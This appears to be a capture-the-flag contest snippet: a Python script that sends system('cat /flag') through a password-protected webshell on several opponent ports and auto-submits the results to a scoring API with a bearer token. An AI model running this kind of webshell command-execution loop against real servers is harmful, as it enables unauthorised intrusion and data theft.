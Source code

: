 编写脚本自动获取flag并提交

```
# coding: UTF-8
import requests
import json

url1="http://xxxx:"
url2=""

flaglist=[]

path="/include/shell.php"
passwd="admin_ccmd"

flagadd="http://xxxx:8801/api/flag"   #提交flag的地址

#payload = {passwd: 'system(\'cat /f*\');'}
payload = {passwd: 'system(\'cat /flag\');'}


headers={
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
    }
headersflag={
        'Host': 'xxxx',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0',
        'Accept': 'application/json, text/plain, */*',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'Content-Type': 'application/json;charset=utf-8',
        'Authorization': 'bada82467423a6526d4d25abbe8cc43a',
        'Origin': 'http://xxxx',
        'Referer': 'http://xxxx/',
    }

i = 0

for url2 in range(8802,8810):
    url = url1 + str(url2) +path
    #print(url1 + str(url2))
    res=requests.post(url,payload, headers=headers)
    try:
        print(url1 + str(url2),res.text)
        # flag存入列表中
        flaglist.append(str(res.text))
        #print(flaglist[i])
        body = {"flag": str(flaglist[i])}
        res = requests.post(flagadd, headers=headersflag, data=json.dumps(body))
        i += 1
    except:
        pass
```
